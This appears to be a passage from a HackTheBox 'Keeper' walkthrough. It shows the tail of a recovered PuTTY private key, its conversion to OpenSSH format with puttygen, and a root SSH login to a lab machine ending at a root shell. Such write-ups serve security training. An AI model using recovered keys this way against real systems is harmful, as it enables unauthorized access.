 ```
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Then we can generate a ssh key that openSSH can use
`puttygen putty.key -O private-openssh -o keeper.key`

Next we can set the correct permissions and then use it to authenticate!
```
┌──(kali㉿kali)-[~/htb/keeper]
└─$ chmod 600 keeper.key 
                                                                                                                                                             
┌──(kali㉿kali)-[~/htb/keeper]
└─$ ssh -i keeper.key root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sun Feb 11 01:26:53 2024 from 10.10.14.10
root@keeper:~# 
```
